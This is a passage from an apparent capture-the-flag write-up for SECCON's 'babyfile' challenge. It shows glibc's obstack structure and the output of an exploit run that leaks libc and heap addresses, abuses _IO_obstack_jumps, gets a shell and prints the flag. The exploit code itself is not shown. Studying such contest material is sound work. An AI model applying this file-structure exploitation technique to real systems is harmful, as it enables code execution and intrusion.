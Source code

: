 ```py
                               /* total size (bytes):  216 */
                             }

struct obstack          /* control current object in current chunk */
{
  long chunk_size;              /* preferred size to allocate chunks in */
  struct _obstack_chunk *chunk; /* address of current struct obstack_chunk */
  char *object_base;            /* address of object we are building */
  char *next_free;              /* where to add next char to current object */
  char *chunk_limit;            /* address of char after current chunk */
  union
  {
    PTR_INT_TYPE tempint;
    void *tempptr;
  } temp;                       /* Temporary for some macros.  */
  int alignment_mask;           /* Mask of alignment for each object. */
  /* These prototypes vary based on 'use_extra_arg', and we use
     casts to the prototypeless function type in all assignments,
     but having prototypes here quiets -Wstrict-prototypes.  */
  struct _obstack_chunk *(*chunkfun) (void *, long);
  void (*freefun) (void *, struct _obstack_chunk *);
  void *extra_arg;              /* first arg for chunk alloc/dealloc funcs */
  unsigned use_extra_arg : 1;     /* chunk alloc/dealloc funcs take extra arg */
  unsigned maybe_empty_object : 1; /* There is a possibility that the current
				      chunk contains a zero-length object.  This
				      prevents freeing the chunk if we allocate
				      a bigger chunk to replace it. */
  unsigned alloc_failed : 1;      /* No longer used, as we now call the failed
				     handler on error, but retained for binary
				     compatibility.  */
};

nasm@off:~/Documents/pwn/seccon/babyfile$ time python3 exploit.py REMOTE HOST=babyfile.seccon.games PORT=3157
[*] '/home/nasm/Documents/pwn/seccon/babyfile/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/nasm/Documents/pwn/seccon/babyfile/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to babyfile.seccon.games on port 3157: Done
[*] libc: 0x7fe2bc538000
[*] heap: 0x55fd27776000
[*] _IO_obstack_jumps: 0x7fe2bc721260
[*] Switching to interactive mode
SECCON{r34d_4nd_wr173_4nywh3r3_w17h_f1l3_57ruc7ur3}
[*] Got EOF while reading in interactive
$
"""
```
{{< /expand >}}

